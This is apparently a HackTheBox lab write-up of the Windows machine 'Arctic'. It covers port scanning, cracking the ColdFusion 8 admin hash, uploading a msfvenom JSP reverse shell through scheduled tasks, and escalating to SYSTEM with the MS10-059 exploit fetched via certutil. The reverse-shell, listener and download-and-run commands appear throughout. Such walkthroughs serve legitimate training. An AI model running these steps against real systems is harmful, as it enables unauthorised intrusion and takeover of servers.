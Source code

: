 # HackTheBox - Arctic

- Windows

![Arctic](../.res/HTB-Arctic.png)

- [Box on HTB](https://app.hackthebox.com/machines/9)

## Nmap

```
┌──(root💀kali)-[~]
└─# nmap -T4 -sC -sV -O -Pn -p- 10.10.10.11  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-15 16:14 EDT
Nmap scan report for 10.10.10.11
Host is up (0.022s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 229.52 seconds
```

## FMTP

- I find this fmtp protocol quite odd. Google was kinda frustrating on this so I just decided to try and go to the service with the browser: http://10.10.10.11:8500/
- And I got this page:  
![image](https://user-images.githubusercontent.com/96747355/163629674-5acab26a-b858-49a7-8cdc-4497677c6ef4.png)  
- Here is the content of the /cfdocs folder  
![image](https://user-images.githubusercontent.com/96747355/163629795-11f40e56-09a0-4cb4-8e01-9e27a15e2d80.png)  
- Let's try to get all files and folders with `wget -r --no-parent http://10.10.10.11:8500/` (it will take a while)
- The files seem to be related to coldfusion which is an adobe tool to develop web app.
- These [slides by Chris Gates](https://paper.bobylive.com/Security/LARES-ColdFusion.pdf) about coldfusion are very useful. This [wiki](https://nets.ec/Coldfusion_hacking) by nets.ec is also very useful
- Another useful article [here](https://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/)
- We know that it is using Adobe Coldfusion 8:  
![image](https://user-images.githubusercontent.com/96747355/163635400-a11f639e-0316-4fea-9959-e65e2ce159ef.png)  
- version `8,0,1,195765` to be exact:  
![image](https://user-images.githubusercontent.com/96747355/163635508-c709c74e-c14d-4bd0-884c-44eb3ea489da.png)  
- We have a login panel here: http://10.10.10.11:8500/CFIDE/administrator/
- We have the hash of the admin  

```bash
#Wed Mar 22 20:53:51 EET 2017 rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP \n password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 encrypted=true 
```

![image](https://user-images.githubusercontent.com/96747355/163635889-e7680cdf-619b-4e4f-b79c-c116d8fe1bef.png)  

- If we go on crackstation.net we can easily find the password `happyday`  

![crackstation](../.res/2022-09-04-07-14-23.png)  

- We can then connect to the panel  

![coldfusion](../.res/2022-09-04-07-18-51.png)  

- If we follow the slides by Chris Gates (page 85), turns out we can get rce using the schedule tasks
- Let's make a reverse shell exe file with msfvenom
  - `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f exe > shell.exe` if you catch it with meterpreter or `msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f exe > shell.exe` if you catch it with netcat
  - Set up a listener `rlwrap nc -lvp 4444`
  - We server our exe `python3 -m http.server 80`
- Now to execute it we have to click on "Schedule New Task" let's make it every minute and a half (has to be greater than 60 seconds) 
- the url is going to be `http://10.10.14.2/shell.exe`
- Let's try like this for now  
![Scheduled task](../.res/2022-09-04-08-26-35.png)
> For some reason the chars were written in greek so I had to write am and pm in greek... I do not speak greek at all but google showed me how to write `am` in greek. See here: https://www.proz.com/kudoz/english-to-greek/general-conversation-greetings-letters/684823-am-pm.html
  
> NOTE: I found out later that the time does not matter we can basically manually launch the tasks

- Ok another try without the greek chars cause it does not seem to work as well so if I type ony `08:30` instead of `8:37 πμ` the task is scheduled.

![shell2](../.res/2022-09-04-08-36-31.png)  

- Third try  
![3rd try](../.res/2022-09-04-08-48-58.png)  
- This is asking for a valid dir name. We can find some in server settings > Mappings (our file will be uploaded there so make sure to put it somewhere you will easily find it)  
![mappings](../.res/2022-09-04-08-51-34.png)  
- Now we can modify our task accordingly `C:\ColdFusion8\wwwroot\CFIDE\shell.exe`  
![proper path](../.res/2022-09-04-08-53-24.png)  
- Now let's do our system probe (page 87 of the slides)
- We click on define new probe  
![probe](../.res/2022-09-04-09-00-53.png)  
![probe2](../.res/2022-09-04-09-02-32.png)  

> I do not get a shell this way either with meterpreter or nc even though the files are being fetch from my http server.

- Let's try to upload another type of payload and execute it through the directory listing misconfiguration. Let's try jsp (according to the doc "ColdFusion pages and JSP pages can interoperate in several ways" see [here](https://helpx.adobe.com/coldfusion/developing-applications/using-web-elements-and-external-objects/integrating-jee-and-java-elements-in-cfml-applications/interoperating-with-jsp-pages-and-servlets.html) )
- `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.2 LPORT=5555 -f raw > shell.jsp` We generate our jsp shell
- `rlwrap nc -lvp 5555` we set our listener
- We upload it to our target with the scheduled Task
- This time our URL is `http://10.10.14.2/shell.jsp`
- And our output has to be saved like this: `C:\ColdFusion8\wwwroot\CFIDE\shell.jsp`
![jsp upload](../.res/2022-09-04-10-13-39.png)  
- I forgot to mention it before but the time does not really matter because we can just launch a task by clicking on the green icon here in front of the task  
![green icon](../.res/2022-09-04-10-15-38.png)  
- Our shell gets fetch  
![fetch jsp](../.res/2022-09-04-10-16-19.png)  
- And it is in our target  
![jsp in target](../.res/2022-09-04-10-17-08.png)  
- Let's click on it and pray to catch the shell this time :)
- It finally works!!  
![shell](../.res/2022-09-04-10-19-57.png)  
- We get a shell as tolis

```dos
whoami
arctic\tolis
```

- Let's get the user flag  
![get user](../.res/2022-09-04-10-24-10.png)

> Another way (without needing the password) would also have been to use [Metasploit](https://www.exploit-db.com/exploits/16788) or a script like [this one](https://github.com/zaphoxx/zaphoxx-coldfusion/blob/main/2265.py)
> - We would take the python script in our target, 
> - Generate the jsp with msfvenom, 
> - Setup our listener, 
> - And launch the python script that will upload our shell to the target
> - Navigate to the page with our shell

## Privesc

- Let's make a systeminfo and copy the output in a file to find an exploit
- We can use Windows exploit suggester on it `wes --update` first we update the db
- Then we pass it our file `wes sysinfo.txt `
- We can focus on privesc with this command `wes sysinfo.txt | grep -A8 "Elevation of Privilege"`
- We have this here which is also MS10-059

```bash
CVE: CVE-2010-2554
KB: KB982799
Title: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege
Affected product: Windows Server 2008 R2 for x64-based Systems
Affected component: 
Severity: Important
Impact: Elevation of Privilege
Exploit: n/a
```
- Let's take the exploit in our attacking machine `wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS10-059/MS10-059.exe`
- We serve it with python web server
- We take it in our target `certutil.exe -urlcache -f http://10.10.14.2/MS10-059.exe MS10-059.exe`
- We set up a listener `rlwrap nc -lvp 5556`
- `MS10-059.exe 10.10.14.2 5556` we run our exploit (we wait a little)
- We have a root shell  
![root shell](../.res/2022-09-04-12-31-53.png)
- We just need to grab the root flag :)  
![root flag](../.res/2022-09-04-12-32-50.png)
